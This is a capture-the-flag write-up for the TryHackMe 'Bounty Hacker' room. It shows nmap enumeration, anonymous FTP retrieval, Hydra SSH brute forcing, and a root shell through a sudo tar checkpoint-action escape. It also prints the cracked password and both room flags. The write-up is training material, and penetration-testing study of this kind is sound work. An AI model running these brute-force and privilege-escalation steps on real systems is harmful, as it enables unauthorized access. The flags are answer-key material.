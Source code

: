 # 🏴‍☠️ TryHackMe - Bounty Hacker

**Platform:** TryHackMe  
**Challenge Type:** Boot2Root   
**Author:** Gage Ayala ([@GageGotya](https://github.com/GageGotya))  
**Date:** April 9, 2025  
**Difficulty:** ⭐ Easy  

---

## 📘 Overview

The **Bounty Hacker** room places you in the role of a digital bounty hunter targeting a cybercriminal syndicate.  
You'll enumerate a server, access files via FTP, crack credentials, and escalate to root using a misconfigured sudo permission.

> 💡 A great beginner-friendly room covering foundational pentesting techniques like recon, password reuse, and privilege escalation.

---

## 🌐 Information Gathering

**Target IP:** _Provided by the room_

### 🔍 Nmap Scan

```bash
nmap -sC -sV <target-ip>
```

**Ports Discovered:**

- `21/tcp` – FTP (vsftpd 3.0.3, anonymous login allowed)  
- `22/tcp` – SSH (OpenSSH 7.2.2)  
- `80/tcp` – HTTP (Apache httpd 2.4.18)

---

## 📂 FTP Access

```bash
ftp <target-ip>
Name: anonymous
```

### 📁 Files Discovered

```bash
ftp> ls
locks.txt
task.txt

ftp> get locks.txt
ftp> get task.txt
```

#### 📄 task.txt

```
1.) Protect Vicious.  
2.) Plan for Red Eye pickup on the moon.  
-lin
```

🔑 **Username hint:** `lin`

#### 📄 locks.txt

Custom password list found which are likely reused credentials.

---

## 🔓 Gaining Access

### 🚀 Brute Force with Hydra

```bash
hydra -l lin -P locks.txt ssh://<target-ip>
```

✅ **Password Found:** `RedDr4gonSynd1cat3`

---

## 🔐 SSH Access

```bash
ssh lin@<target-ip>
```

---

## 🏁 User Flag

```bash
cat ~/Desktop/user.txt
```

**Flag:**  
```
THM{CR1M3_SyNd1C4T3}
```

---

## 🪜 Privilege Escalation

### 🔍 Sudo Permissions

```bash
sudo -l
```

```text
User lin may run the following command as root:
(root) /bin/tar
```

### 📦 Exploiting tar

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

```bash
whoami
root
```

---

## 👑 Root Flag

```bash
cat /root/root.txt
```

**Flag:**  
```
THM{80UN7Y_h4cK3r}
```

---

## 💡 Reflections

- Anonymous FTP access is often overlooked but powerful  
- Password reuse is still a major weakness  
- Always run `sudo -l` — it's a goldmine  
- Even basic tools like `tar` can grant root when misconfigured

---

## 🧠 Pro Tip

> *"When in doubt, poke around, read everything, and always try the simple stuff first."*

---

## 📁 Summary of Key Files

| File        | Description                            |
|-------------|----------------------------------------|
| `locks.txt` | Password list used in brute-force      |
| `task.txt`  | Initial objective + username clue      |
| `user.txt`  | First flag found on user's desktop     |
| `root.txt`  | Root flag retrieved after escalation   |
